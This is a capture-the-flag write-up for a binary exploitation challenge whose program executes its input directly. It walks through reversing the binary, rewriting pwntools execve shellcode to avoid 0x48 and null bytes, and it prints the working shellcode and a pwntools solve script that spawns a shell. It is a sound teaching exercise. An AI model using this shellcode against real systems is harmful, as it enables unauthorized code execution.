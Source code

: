 ```yaml
---
slug: level-1
title: Level 1
authors: [nguyen]
tags: [Binary Exploitation]
---
```


Level 1

<!--truncate-->

## The Challenge

File can be downloaded [here](/files/level_1/level-1) (Right click and open in new tab).

The goal of this challenge is to provide shellcode that gets executed for a shell.

## Analysis

I ran the executable and sent random output just to see what would happen. When I sent 'h', I received an output `Illegal instruction (core dumped)`. Since it interpreted 'h' as an instruction, I could try to feed it an input that would be a valid instruction.

Using ghidra, I looked in main and found that the executable reads into a buffer of 4096 bytes and then executes it directly in memory. The value `0x48` is treated as a bad byte so I had to create shellcode that would avoid `0x48` and null bytes.

`0x48` is a REX prefix that generally appears in shellcode where certain operations performed on 64 bit registers are used. I used the shellcode from pwntools as a template to start with.

```python3
shellcode = asm(shellcraft.amd64.linux.sh())
```

The above code provides the following shellcode:

```
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```

Throwing it into an assembler reveals that there are a few `0x48` bytes that need to be replaced.

```
0:  6a 68                   push   0x68
2:  48 b8 2f 62 69 6e 2f    movabs rax,0x732f2f2f6e69622f
9:  2f 2f 73
c:  50                      push   rax
d:  48 89 e7                mov    rdi,rsp
10: 68 72 69 01 01          push   0x1016972
15: 81 34 24 01 01 01 01    xor    DWORD PTR [rsp],0x1010101
1c: 31 f6                   xor    esi,esi
1e: 56                      push   rsi
1f: 6a 08                   push   0x8
21: 5e                      pop    rsi
22: 48 01 e6                add    rsi,rsp
25: 56                      push   rsi
26: 48 89 e6                mov    rsi,rsp
29: 31 d2                   xor    edx,edx
2b: ff 34 25 00 00 00 00    push   QWORD PTR ds:0x0
32: 58                      pop    rax
33: 0f 05                   syscall
```

I replaced mov operations with pushes and pops in order to get rid of the bad bytes. I also replaced line 2b with `push 0x3b` for the syscall code for execve.

```
push 0x68
mov r15, 0x732f2f2f6e69622f
push r15
push rsp
pop rdi

push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi
push rsi
push 8
pop r14
add r14, rsp
push r14
push rsp
pop rsi
xor edx, edx
push 0x3b
pop rax
syscall
```

Now there are no more bad bytes.

`"\x6A\x68\x49\xBF\x2F\x62\x69\x6E\x2F\x2F\x2F\x73\x41\x57\x54\x5F\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xF6\x56\x6A\x08\x41\x5E\x49\x01\xE6\x41\x56\x54\x5E\x31\xD2\x6A\x3B\x58\x0F\x05"`

I use pwntools to send the payload to the program and successfully obtain a shell.

```python
#!/usr/bin/env python3

"""
Toast's submission for the challenge level-1.

This script can be used in the following manner:
python3 ./solve.py

Returns:
    An interactive shell
"""

from pwn import *

exe = ELF("./level-1")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']
context.arch = 'amd64'

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    io = process([exe.path])
    return io


def main():
    '''Return the flag.
    '''

    with conn() as io:
        shellcode = b"\x6A\x68\x49\xBF\x2F\x62\x69\x6E\x2F\x2F\x2F\x73" + \
                    b"\x41\x57\x54\x5F\x68\x72\x69\x01\x01\x81\x34\x24" + \
                    b"\x01\x01\x01\x01\x31\xF6\x56\x6A\x08\x41\x5E\x49" + \
                    b"\x01\xE6\x41\x56\x54\x5E\x31\xD2\x6A\x3B\x58\x0F\x05"
        io.send(shellcode)
        io.interactive()


if __name__ == '__main__':
    main()
```

![Shell output](/img/level_1/shell.png)

## References

[https://defuse.ca/online-x86-assembler.htm#disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)

[https://staffwww.fullcoll.edu/aclifton/cs241/lecture-instruction-format.html](https://staffwww.fullcoll.edu/aclifton/cs241/lecture-instruction-format.html)

[https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix](https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix)
